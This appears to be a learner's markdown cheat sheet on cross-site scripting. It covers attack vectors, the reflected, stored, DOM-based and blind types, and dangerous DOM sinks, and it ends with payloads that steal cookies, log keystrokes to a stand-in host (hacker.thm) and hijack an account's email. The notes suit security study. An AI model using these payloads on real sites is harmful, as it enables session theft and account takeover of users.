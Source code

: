 # Cross Site Scripting(XSS)

### Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### Reflected XSS arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

-   Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

<!-- -->


Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### The payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information
-  Nicknames in a chatroom  
- Website Listings

<!-- -->

				Dom-Based XSS		
##### Contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

- Attack vector is usually the url

- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

- attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with.

Common sinks that lead to Dom-XSS:
-  document.write()
-  document.writeln()
-  document.domain
-  element.innerHTML
-  element.outerHTML
-  element.insertAdjacentHTML
-  element.onevent

<!-- -->

 
					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
## Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

## Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)